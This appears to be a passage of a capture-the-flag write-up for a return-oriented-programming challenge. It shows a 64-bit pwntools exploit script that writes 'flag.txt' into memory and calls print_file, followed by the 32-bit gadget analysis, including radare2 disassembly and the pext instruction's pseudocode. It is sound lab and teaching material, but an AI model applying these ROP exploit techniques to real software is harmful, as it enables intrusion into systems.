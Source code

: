 ```python

al = 0x0b
obj = b'flag.txt'

# here we have the loop to write in memomory the "flag.txt" string
for target in obj:
    payload = control_AL(target, al, io.elf, payload)
    payload += stos
    al = target

# last step is about call the print_file function with the right paramenter 
payload += p64(0x004006a3) # pop rdi; ret
payload += p64(0x00601028) # .data address
payload += p64(0x00400510) # print_file

io.sendline(payload)
print(io.recvall())
```

## 32 bit

lets find all information we need as we did in the 64bit version:
- `.data` -> `0x0804a018`
- `print_file` -> `0x080483d0`
- `questionableGadget` -> `0x08048543`

our gadget are:

```bash
[0xf7f4e0b0]> s 0x08048543
[0x08048543]> pd 16
            ;-- questionableGadgets:
			
            0x08048543      89e8           mov eax, ebp
            0x08048545      bbbababab0     mov ebx, 0xb0bababa
            0x0804854a      c4e262f5d0     pext edx, ebx, eax
            0x0804854f      b8efbeadde     mov eax, 0xdeadbeef
            0x08048554      c3             ret
            
			0x08048555      8611           xchg byte [ecx], dl
            0x08048557      c3             ret
            
			0x08048558      59             pop ecx
            0x08048559      0fc9           bswap ecx
            0x0804855b      c3             ret
```

1.  `pext edx, ebx, eax` -> `0x08048543`
 uses a mask (`eax`) to transfer bits from the operand (`ebx`) in the lowest order bits of the destination (`edx`)
	
the operation can be summarized as follow 
```
TEMP ← SRC1;
			MASK ← SRC2;
			DEST ← 0 ;
			m← 0, k← 0;
			DO WHILE m< OperandSize
				IF MASK\[ m\] = 1 THEN
					DEST\[ k\] ← TEMP\[ m\];
					k ← k+ 1;
			FI
			m ← m+ 1;
			OD			
```
